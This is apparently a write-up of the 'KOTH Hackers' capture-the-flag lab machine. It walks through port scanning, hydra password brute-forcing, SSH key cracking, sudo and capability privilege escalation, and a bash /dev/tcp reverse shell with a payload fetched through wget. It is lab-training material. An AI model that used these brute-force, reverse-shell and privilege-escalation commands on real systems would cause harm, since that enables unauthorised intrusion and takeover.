 # KOTH HACKERS<br />

-------------
## IP: `10.10.228.111`<br />

----------------------
### Open Ports Via Nmap -<br />

`nmap -sC -sV 10.10.228.1115`

```
21
22
80
9999
```

![image](images/nmap.png)

----------------------
#### Subdirectories Via Gobuster -<br />

```
/news
/contact
/img
/staff
/backdoor
```

![image](images/gobuster.png)

----------------------
##### Login via ftp `anonymously` - <br />

> We'll get a note, which will give us usernames to brute-force (:

![image](images/anon.png)


> When we cat that note, we get-<br/>

![image](images/note.png)

------------------------
##### Gcrawford Credentials Via Hydra -<br/>

```
hydra -l gcrawford -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
```
![image](images/gcrawford.png)


username: gcrawford<br />
password: PAOLA<br />

> Login via ftp using these creds

![image](images/gcrawftp.png)

`We got id_rsa of gcrawford user from cd /.ssh/id_rsa`

> Since it's a protected private key we need to crack the passphrase for `id_rsa` of gcrawford using JohnTheRipper<br />

`ssh2john id_rsa > forjohn`

`john forjohn --wordlist=/usr/share/wordlists/rockyou.txt`

> We Got The Pass For Private Key

![image](images/john.png)


```
id_rsa:25192519 
```

`login via gcrawford using id_rsa`

```
ssh -i id_rsa gcrawford@10.10.228.111
```

##### privilege escalation of `gcrawford` user cuz of sudo ability over `nano`<br/>

We can see nano's [Gtfo-Bins](https://gtfobins.github.io/gtfobins/nano/)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

------------------------
##### Rcampbell Credentials Via Hydra -<br />

```
hydra -l rcampbell -P /usr/share/wordlists/rockyou.txt 10.10.228.111 ftp
``` 

![image](images/rcampbell.png)

username: rcampbell<br />
password: molly<br />

###### Login via ftp using rcampbell credentials -<br/>

`ftp 10.10.228.111`

![image](images/ftp.png)

##### Login via ssh with rcampbell with the same password of this user for ftp and search for `capabilities`<br />

```
getcap -r / 2>/dev/null
```
![image](images/capabilities.png)


> Now to get root, we can do -<br/>

```
python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```
![image](images/rcamp.png)

##### Crack the password for [backdoor](http://10.10.228.111/backdoor)<br />

![image](images/backdoor.png)


```
hydra -l plague -P /usr/share/wordlists/rockyou.txt 10.10.228.111 http-post-form "/api/login:username=^USER^&password=^PASS^:Incorrect"
```
![image](images/plague.png)


username: plague<br />
password: twentyone<br />

> start a net-cat listener on your machine, and we can get a rev-shell using -<br/>

`nc -lnvp <port>`<br/>

```
bash -i >& /dev/tcp/<ip>/<port> 0>&1
```
![image](images/bash.png) ![image](images/nc.png)


##### You can get a rev shell with user `production` logged in and can achieve privilage escalation using this c code -<br />

Check out this blog for more on it [ld_preload-privesc](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/)
```c

```

![image](images/shell.png)

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`<br/>

![image](images/gcc.png)

> start a python server and transfer the shell.so to machine<br/>

`python3 -m http.server 80`<br/>

`wget <ip>/shell.so`<br/>

`chmod +x shell.so`<br/>

```
sudo openssl req -engine ./shell.so
```
![image](images/openssl.png)